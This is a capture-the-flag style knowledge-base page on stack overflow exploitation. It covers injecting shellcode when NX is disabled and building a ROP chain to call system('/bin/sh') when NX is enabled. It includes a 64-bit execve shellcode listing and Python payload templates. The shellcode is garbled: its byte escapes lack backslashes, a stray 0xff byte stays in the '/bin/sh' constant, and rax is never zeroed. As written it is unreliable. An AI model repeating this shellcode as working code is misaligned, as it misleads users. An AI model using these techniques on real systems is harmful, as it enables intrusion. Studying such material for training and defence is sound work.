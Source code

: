 ```yaml
---
title: ROP Chains and Shellcode Injection
parent: Protection Bypass
grand_parent: Pwn
great_grand_parent: Knowledge Base
nav_order: 6
---
```



# ROP Chains and Shellcode Injection

This guide explains how to proceed based on whether the binary has **NX enabled** or **NX disabled**.

---

## Shellcode Injection (When NX is Disabled)

If NX (No-eXecute) is **disabled**, memory regions like the stack are executable.

### Exploitation Strategy

1. Overflow the buffer.
2. Inject custom shellcode onto the stack.
3. Overwrite the return address (RIP) to point to your shellcode.

### Example Shellcode (64-bit)

Execve shellcode to spawn a shell (`/bin/sh`):

```assembly
x48x31xd2                                  // xor    rdx, rdx
x48xbbxffx2fx62x69x6ex2fx73x68      // movabs rbx, 0x68732f6e69622fff
x53                                          // push   rbx
x48x89xe7                                  // mov    rdi, rsp
x50                                          // push   rax
x57                                          // push   rdi
x48x89xe6                                  // mov    rsi, rsp
xb0x3b                                      // mov    al, 0x3b
x0fx05                                      // syscall
```

### Payload Layout

```
[ padding to overflow buffer ]
[ shellcode ]
[ padding to reach RIP ]
[ stack address pointing to shellcode ]
```

Example Payload:
```python
payload = b"A" * offset
payload += shellcode
payload += b"B" * (rip_offset - len(shellcode))
payload += p64(shellcode_address)
```

---

## ROP Chain (When NX is Enabled)

If NX is **enabled**, the stack cannot be executed — you cannot jump to shellcode. You must reuse existing executable code (ROP).

### Exploitation Strategy

1. Find a leak to get libc or binary base address.
2. Find useful gadgets (`pop rdi; ret`, etc.).
3. Build a ROP chain to call `system("/bin/sh")`.

### Common Gadgets (64-bit)

- `pop rdi; ret` — to set up the first argument in `rdi`.
- Addresses of `system` and `"/bin/sh"` in libc.

### Typical ROP Payload

```
[ padding to overflow buffer ]
[ pop rdi; ret gadget address ]
[ address of "/bin/sh" string ]
[ address of system() function ]
```

Example:
```python
payload = b"A" * offset
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)
```

---

## Notes

- **NX disabled**: Use shellcode — easy.
- **NX enabled**: Use ROP chains — requires libc or binary leak.
- **64-bit ROP**: Arguments passed in registers (rdi, rsi, rdx).
- **32-bit ROP**: Arguments passed on the stack — different calling convention.

For information on how to leak libc addresses, see [Infoleak Techniques](infoleak.md).
